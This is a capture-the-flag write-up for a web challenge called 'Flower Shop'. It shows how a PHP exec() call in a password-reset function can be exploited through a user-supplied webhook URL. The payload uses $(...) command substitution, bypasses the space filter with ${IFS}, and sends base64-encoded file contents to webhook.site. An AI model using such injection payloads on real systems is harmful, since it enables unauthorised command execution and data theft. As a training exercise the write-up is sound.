



# Flower Shop

This web challenge involves exploiting a `exec` statement in a vulnerable PHP script. Apparently this solution was unintended, but it made the challenge a whole lot easier as the intended solution was almost impossible to solve.

## Description

> Flowers!

The files for this challenge can be found [here](FlowerShop.zip).

---

## Overview



Upon visiting the site, we see that there are fields to sign up, login, and reset one's password. The login and signup functionalities seem to function normally and do not seem vulnerable to SQL injections. However, when looking through the source for password reset, I came across an `exec` statement.

```php
// File: app/classes/reset.class.php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    // There's an exec statement here, are we able to exploit it?
    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

## Inspecting Exec

The `exec` function seems to be running a shell command on `send_pass.php` with the arguments of `tmpPass` and `wh`. `tmpPass` is generated within the current function and we do not have any control over it. However, `wh` contains the value of the webhook that we pass in when signing up.

`wh` does seem to have some restrictions too. From `signup.class.php` we can infer that `wh` must be a valid URL as it is passed through the `filter_var` function with the `FILTER_VALIDATE_URL` flag. This also means that all illegal characters are removed (such as spaces). You can find out more about it [here](https://www.w3schools.com/php/filter_validate_url.asp).

```php
// File: app/classes/signup.class.php
public function signupUser() {
    // ...
    if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
        header("location: ../login.php?error=NotValidWebhook");
        exit();
    }
    // ...
}
```

## Bash in a Bash

Since the commands are passed into bash, we can evaluate expressions within a command using `$(expression here)`. For example, if we want to read a value from a file and send it to a website using cURL, we normally do it the following way:

```bash
$ cat file_to_read.txt
this is some example content

$ curl http://example.com?p=this is some example content
```

However, it can be simplified into:

```bash
$ curl http://example.com?p=$(cat file_to_read.txt)
```

Our command `cat file_to_read.txt` will be ran first, `$(cat ...)` will be replaced with the output of the command.

## Exploiting Exec

Using the technique above, we can craft a malicious webhook that reads the `admin.php` file to leak the flag:

`https://webhook.site/...?p=$(cat admin.php)`

However, the payload above doesn't work just yet. The `filter_var` function in `signup.class.php` removes all spaces, leaving us with an invalid command of `catadmin.php`.

So, how can we bypass this space filtering? [This](https://unix.stackexchange.com/questions/351331/how-to-send-a-command-with-arguments-without-spaces) post on StackExchange gives us the perfect expression we need: `${IFS}`. When `${IFS}` is evaluated, it gives us an empty space 😃

However, if there are spaces or newlines in the parameter passed to cURL, it will treat it as seperate arguments and not send them 😢



## Removing Spaces

In order to remove the spaces from the output, the simplest way would be to read and encode the file using `base64`, so lets try to craft a command that does just that. The argument `-w0` tells `base64` to not print newlines and keep the output to one single line.

`base64 -w0 ../admin.php`

Lets replace all the spaces with `${IFS}` and register that URL as the webhook!

`https://webhook.site/...?p=$(base64${IFS}-w0${IFS}../admin.php)`

And we get the following output! Once we decode it, we'll be able to extract the flag 🥳



Flag: `CACI{y0uv3_f0und_th3_rar3st_s33d_0f_all!}`
